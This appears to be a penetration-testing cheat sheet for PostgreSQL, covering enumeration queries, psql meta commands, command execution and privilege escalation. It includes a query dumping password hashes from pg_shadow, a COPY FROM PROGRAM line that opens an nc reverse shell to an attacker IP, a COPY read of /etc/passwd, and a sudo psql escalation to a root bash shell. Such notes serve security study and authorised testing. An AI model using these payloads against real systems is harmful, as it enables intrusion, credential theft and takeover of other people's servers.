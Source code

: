 For SQLi, refer to PayloadAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md

## Enumeration

PostgreSQL Enumeration Oneliners
```
DBMS version 	SELECT version()
Database Name 	SELECT CURRENT_DATABASE()
Database Schema 	SELECT CURRENT_SCHEMA()
List PostgreSQL Users 	SELECT usename FROM pg_user
List Password Hashes 	SELECT usename, passwd FROM pg_shadow
List DB Administrators 	SELECT usename FROM pg_user WHERE usesuper IS TRUE
Current User 	SELECT user;
Current User 	SELECT current_user;
Current User 	SELECT session_user;
Current User 	SELECT usename FROM pg_user;
Current User 	SELECT getpgusername();
```

PostgreSQL Methodology
```
List Schemas 	
	SELECT DISTINCT(schemaname) FROM pg_tables
List Databases 	
	SELECT datname FROM pg_database
List Tables 	
	SELECT table_name FROM information_schema.tables
List Tables 	
	SELECT table_name FROM information_schema.tables WHERE table_schema='<SCHEMA_NAME>'
List Tables 	
	SELECT tablename FROM pg_tables WHERE schemaname = '<SCHEMA_NAME>'
List Columns 	
	SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```


PSQL Meta Commands
```bash
# Connect
psql -h <db-address> -d <db-name> -U <username> -W
	-W forces psql to ask for the user password before connection
	-p to specify port
	default user:pass is postgres:postgres

# List all databases
\l

# Switch databases
\c <database_name>

# List database tables
\dt

# Describe a table
\d
\d+ <table_name>
	more info about a table

# Output all info from table
SELECT * FROM table_name;

# List all schemas
\dn

# List all users and their roles
\du
\du <username>
	specific users

# List all functions
\df

# List all views
\dv

# Save query results to a file
\o <file_name>

# Run commands from a file
\i <file_name>
	for example if you have a .txt file that does \l \dt \du you can do it all at once

# Quit
	\q

```

## Command Execution

PSQL Command Exec/File Read -- See [link](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)
```bash
1.
# 'superuser' must be apresent attrubute of user

\du

2.
# Get users roles
# pg_execute_server_program must be present

SELECT 
      r.rolname, 
      r.rolsuper, 
      r.rolinherit,
      r.rolcreaterole,
      r.rolcreatedb,
      r.rolcanlogin,
      r.rolconnlimit, r.rolvaliduntil,
  ARRAY(SELECT b.rolname
        FROM pg_catalog.pg_auth_members m
        JOIN pg_catalog.pg_roles b ON (m.roleid = b.oid)
        WHERE m.member = r.oid) as memberof
, r.rolreplication
FROM pg_catalog.pg_roles r
ORDER BY 1;


3.1: command exec/reverse shell:

	CREATE TABLE shell(output text);
	
	Start listener on Attack box
	
	COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <attack_ip> <listen port> >/tmp/f';
	#any rev shell can go here


3.2: file read:

	CREATE TABLE read_files(output text);
	
	COPY read_files FROM ('/etc/passwd');
	
	SELECT * FROM read_files;

```

## Privesc (sudo -l)
sudo psql privesc
```bash
# First add role for root (requires postgres/superuser access already)

CREATE ROLE root WITH LOGIN SUPERUSER PASSWORD 'password';
\q

# run psql as root

sudo psql -w postgres

# priv esc

\?
! /bin/bash
```
